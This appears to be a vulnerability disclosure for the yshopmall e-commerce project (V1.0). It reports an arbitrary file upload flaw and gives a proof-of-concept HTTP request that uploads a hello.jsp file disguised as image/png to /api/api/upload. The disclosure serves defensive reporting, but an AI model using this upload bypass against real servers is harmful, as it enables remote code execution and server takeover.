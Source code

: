 target:https://github.com/guchengwuyue/yshopmall
version: V1.0

The system has an arbitrary file upload vulnerability, which can enable RCE or even take over the server when improperly configured to parse JSP files

POC:
```
POST /api/api/upload HTTP/1.1
Host: 
Sec-Fetch-Dest: empty
Accept-Encoding: gzip, deflate, br
Sec-Fetch-Mode: cors
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryfq022FLSjwwBICu2
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36 NetType/WIFI MicroMessenger/7.0.20.1781(0x6700143B) WindowsWechat(0x63090c11) XWEB/11275 Flue
Sec-Fetch-Site: same-site
Origin: 
Accept: */*
Connection: keep-alive
Authorization: 
Accept-Language: zh-CN,zh;q=0.9
Referer: 
Content-Length: 1200649

------WebKitFormBoundaryfq022FLSjwwBICu2
Content-Disposition: form-data; name="file"; filename="hello.jsp"
Content-Type: image/png

Hello World !

------WebKitFormBoundaryfq022FLSjwwBICu2
```